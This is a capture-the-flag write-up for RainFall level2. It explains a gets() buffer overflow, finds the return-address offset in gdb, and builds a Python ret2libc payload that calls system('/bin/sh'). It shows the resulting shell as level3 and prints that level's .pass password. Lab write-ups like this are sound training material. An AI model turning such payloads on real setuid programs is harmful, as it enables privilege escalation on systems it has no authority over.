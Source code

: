 # Level 2

first we check the excutable file we found our binary wait an input and print the string.

we use gdb to disassemble the main function and that what we got:

```c
Dump of assembler code for function main:
 0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

in the main we see they call p function let see what's do :

```c
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

in the line <+25> in function P they call the [gets](https://linux.die.net/man/3/gets) function.

we assume that's a BufferOverFlow vulnerability then we try to give it a long chaine of character, we got a segFault.

```c
(gdb) run
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppaaaabbbbcccczzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp

Program received signal SIGSEGV, Segmentation fault.
0xb7ea912f in ?? () from /lib/i386-linux-gnu/libc.so.6
```

we need to know th size of the buffer to know how many character we need to send to the program.
in p function we look at the line <+19> we see that they use `ebp-0x4c` to store the input.

```c
    0x080484da <+6>:	mov    eax,ds:0x8049860
    0x080484df <+11>:	mov    DWORD PTR [esp],eax
    0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
    0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
    0x080484ea <+22>:	mov    DWORD PTR [esp],eax
    0x080484ed <+25>:	call   0x80483c0 <gets@plt>

```

let's get the address of `ebp-0x4c` and `return Address` in gdb

```
(gdb) x/x $ebp-0x4c
0xbffff6ac:	0x00000001
(gdb) info frame
Stack level 0, frame at 0xbffff700:
eip = 0x80484da in p; saved eip 0x804854a
called by frame at 0xbffff710
Arglist at 0xbffff6f8, args:
Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
Saved registers:
ebp at 0xbffff6f8, eip at 0xbffff6fc
```

we can now the return addres by this way

```
x/x $ebp + 4
```

the address of `ebp-0x4c` is `0xbffff6ac`
the address of `return Address` is `0xbffff6fc`

0xbffff6fc - 0xbffff6ac = 0x50 = 80

the size of the buffer is 80 bytes.

we need to send 80 bytes to the program to overwrite the return Address.

we can use python to do that.

```c
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) info proc mappings
process 3848
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb)
```

as you see we have look for the address of the function system and the address of the string "/bin/sh" in the memory.

now we can write a python script to do that.

```python
padding = 'A'*80
addressSystem =  "\x60\xb0\xe6\xb7"
binsh= "\x58\xcc\xf8\xb7"
print padding+addressSystem+"0000"+binsh
```

we try to run the script and we got the system address printed.

```c
level2@RainFall:~$ cat script -| ./level2
(0xb7e6b060)

```

we check the instruction in the function p and we see that they use `system` to execute the command.

```c
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
```

we found they check if the address not start with `0xb0000000` and if it's not they jump to the address `0x08048527 <+83>`. else they print the address and exit.

to bypass this we need to pass a address that not start with `0xb0000000` and we can do that by using the address of the return address `0x08048538`

```python
padding = 'A'*80
addressSystem =  "\x60\xb0\xe6\xb7" #address of system
returnAddr = "\x3e\x85\x04\x08" #address of return address
binsh="\x58\xcc\xf8\xb7" #address of /bin/sh
print padding+returnAddr+addressSystem+"0000"+binsh
```

now we can run the script and we got it .

```c
level2@RainFall:~$ cat script -|./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`��0000X��
whoami
level3
ls ../level3
ls: cannot access ../level3: Permission denied
whoami
level3
cd ../level3
ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```
